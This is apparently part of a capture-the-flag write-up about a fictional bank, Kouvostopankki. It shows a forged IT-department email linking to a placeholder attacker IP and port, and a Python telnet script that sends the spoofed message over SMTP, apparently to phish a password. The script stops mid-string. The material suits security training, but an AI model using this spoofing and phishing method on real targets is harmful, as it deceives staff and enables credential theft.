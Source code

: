 ```html
'''Subject: Re: Spam issues
From: Pinja Pirivirkkala <pinja.pirivirkkala@kouvostopankki.fi>
To: =?UTF-8?Q?Amadea_Harjum=c3=b6tt=c3=b6?=
 <amadea.harjumotto@kouvostopankki.fi>
Date: Wed, 13 Sep 2023 21:41:19 +0300
References: <c5998c26-14fd-bd3f-c95e-6ac5099a7ff3@kouvostopankki.fi>
 <99ffe330-8052-fc37-18f8-f7e253600ccf@kouvostopankki.fi>
 <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>
In-Reply-To: <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>

<!DOCTYPE html>
<html>
<body>
    <p>Hello again!</p>
    <a href="http://<myipaddress>:<myport>/index.html">Heres intranet address for you.</a>
    <p>Stay safe!</p>
    <br>
    <p>Warm regards,</p>
<p>Pinja Pirivirkkala</p>
<p>IT Department</p>
<p>Kouvostopankki</p>
</body>
</html>
```
### Password <a name="pass"></a>
To work with the Telecom service, which can only take one line at a time, I've written a Python script for this:

```python

import telnetlib

mailHost="80.69.175.118\n\r"
mailPort="25\n\r"
TChost="kouvostopankki.fi"
TCport=42851

pinja="pinja.pirivirkkala@kouvostopankki.fi"
amadea="amadea.harjumotto@kouvostopankki.fi"

elhoCMD=f"EHLO {TChost}\n\r"
tlsCMD='STARTTLS\n\r'
fromCMD=f'MAIL FROM: {pinja}\n\r'
toCMD=f'RCPT TO: {amadea}\n\r'

payload='''Subject: Re: Spam issues
From: Pinja Pirivirkkala <pinja.pirivirkkala@kouvostopankki.fi>
To: =?UTF-8?Q?Amadea_Harjum=c3=b6tt=c3=b6?=
 <amadea.harjumotto@kouvostopankki.fi>
Date: Wed, 13 Sep 2023 21:41:19 +0300
References: <c5998c26-14fd-bd3f-c95e-6ac5099a7ff3@kouvostopankki.fi>
 <99ffe330-8052-fc37-18f8-f7e253600ccf@kouvostopankki.fi>
 <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>
In-Reply-To: <e8e8137c-a43f-0eae-f41a-ac25fc533afd@kouvostopankki.fi>

<!DOCTYPE html>
<html>
<body>
    <p>Hello again!</p>
    <a href="http://<ip>:<port>/index.html">Heres intranet address for you.</a>
    <p>Stay safe!</p>
    <br>
    <p>Warm regards,</p>
```
